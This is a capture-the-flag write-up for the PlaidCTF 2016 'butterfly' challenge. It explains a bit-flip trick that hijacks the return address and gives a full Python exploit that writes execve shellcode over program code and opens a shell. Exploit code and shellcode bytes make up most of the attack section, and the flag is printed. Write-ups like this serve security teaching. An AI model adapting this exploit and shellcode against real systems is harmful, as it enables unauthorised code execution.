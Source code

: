 ```yaml
---
layout: post
title: pctf 2016 butterfly writeup
category: writeup
---
```



with disassembler, I can get pseudocode like

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  signed int v3; // er14@1
  __int64 v4; // rax@2
  char v5; // bl@2
  __int64 v6; // rbp@2
  unsigned __int64 v7; // r15@2
  __int64 v8; // rax@5
  char v10; // [sp+0h] [bp-68h]@1
  __int64 v11; // [sp+40h] [bp-28h]@1

  v11 = *MK_FP(__FS__, 40LL);
  setbuf(_bss_start, 0LL);
  puts("THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?");
  v3 = 1;
  if ( fgets(&v10, 50, stdin) )
  {
    v4 = strtol(&v10, 0LL, 0);
    v5 = v4;
    v6 = v4 >> 3;
    v7 = (v4 >> 3) & 0xFFFFFFFFFFFFF000LL;
    if ( mprotect((void *)v7, 0x1000uLL, 7) )
    {
      perror("mprotect1");
    }
    else
    {
      v3 = 1;
      *(_BYTE *)v6 ^= 1 << (v5 & 7);
      if ( mprotect((void *)v7, 0x1000uLL, 5) )
      {
        perror("mprotect2");
      }
      else
      {
        puts("WAS IT WORTH IT???");
        v3 = 0;
      }
    }
  }
  v8 = *MK_FP(__FS__, 40LL);
  if ( *MK_FP(__FS__, 40LL) == v11 )
    LODWORD(v8) = v3;
  return v8;
}
```

so this program get one integer, and xor one specific bits.
I choose one address to change stack operation

> .text:0000000000400860                 add     rsp, 48h | 48 83 C4 48

to

> .text:0000000000400860                 add     rsp,  8h | 48 83 C4 08

so i can control return address. (goto main and loop this thing)

and next thing is easy: overwrite any address to shellcode and execute it.

my exploit code:

```python
import pwnbox
import struct

# PCTF{b1t_fl1ps_4r3_0P_r1t3}

local = True

main_ = 0x400788
libc_init = 0x400890
if local:
    p = pwnbox.pipe.ProcessPipe('gdb -q butterfly_33e86bcc2f0a21d57970dc6907867bed')
else:
    p = pwnbox.pipe.SocketPipe('butterfly.pwning.xxx',9999)

first_point = (0x400863) << 3 | 6

def xor_code(addr,pos):
    p.read_until('RAY?')
    p.write(('%d' % ((addr << 3) | pos)).ljust(40,'A') + struct.pack('<Q',main_) + '\n')

def xor_byte(addr,byte):
    for i in range(8):
        if byte & 1 :
            xor_code(addr,i)
        byte /= 2

def change_byte(addr,orig,new):
    xor_byte(addr,orig)
    xor_byte(addr,new)

def change_bytes(addr,orig_bytes,new_bytes):
    for i in range(len(orig_bytes)):
        change_byte(addr+i, struct.unpack('<B',orig_bytes[i])[0], struct.unpack('<B',new_bytes[i])[0])


if local:
    p.read_until('(gdb)')
    #p.write('b *0x400860\n')
    p.write('r\n')


p.read_until('RAY?')
p.write(('%d'%first_point).ljust(40,'A') + struct.pack('<Q',main_)+'\n')
change_bytes(libc_init,'415741564189FF415541544C8D251602200055488D2D1602200053'.decode('hex'),'31c048bbd19d9691d08c97ff48f7db53545f995257545eb03b0f05'.decode('hex'))

p.read_until('RAY?')
p.write(('%d'%(0x40086B << 3 | 0)).ljust(40,'A') + struct.pack('<Q',libc_init) + '\n')
p.interact()
```
